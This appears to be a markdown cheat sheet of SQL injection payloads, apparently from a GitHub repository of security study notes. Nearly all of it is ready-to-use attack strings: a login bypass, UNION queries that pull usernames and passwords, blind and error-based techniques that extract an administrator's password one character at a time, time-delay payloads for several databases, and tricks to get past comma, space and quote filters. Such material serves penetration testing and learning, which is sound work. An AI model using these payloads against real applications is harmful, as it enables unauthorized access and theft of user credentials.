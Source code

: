### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```
### Retrieving Database Version
```
# mysql / mariadb and Microsoft SQL
select @@version;

# postgreSQL
select version()

# oracle
select banner from v$version
select version from v$instance

```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL

```
# Identify password length
'AND (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a

# Identify one password character at a time
# This example depends on differences in the return data.
'AND (SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='administrator'),<character position>,1)))=<ascii decimal value>--
# For each substring character (1,1; then 2,1; 3,1; etc...) cycle through all the decimal values for printable characters (33-126)

# for oracle, use SUBSTR instead of SUBSTRING

#These conditional queries depend on triggering error messages.

#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#Working PostgreSQL Statement 
(SELECT CASE WHEN count((SELECT(SELECT CASE WHEN count(( SELECT 1 ))<>0 THEN pg_sleep(5) ELSE $$$$ END)))<>0 THEN true ELSE false END) --


#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
### Bypassing Comma Restrictions
```
SELECT 1,2,3,4 FROM TABLE;    UNION SELECT * from ((SELECT 1 FROM TABLE)a JOIN (SELECT 2 FROM TABLE)b JOIN (SELECT 3 FROM TABLE)c JOIN (SELECT 4 FROM TABLE)d)--
```
### Bypassing Space Restrictions  
```
# mysql
SELECT/**/1;

# postgreSQL
/**/

```
### Bypassing Quote Restrictions  
```
# postgres  
SELECT 'TEST'; # example
SELECT $$TEST$$;
SELECT $TAG$TEST$TAG$;
SELECT CHR(84) || CHR(69) || CHR (83)  || CHR (84);
```
# Time Delays
```
# mysql / mariadb 
sleep(10)

# Microsoft SQL 
WAITFOR DELAY '0:0:10'

# postgreSQL
SELECT pg_sleep(10)

# oracle
dbms_pipe.receive_message(('a'),10)
```

### SQLi Cheat Sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
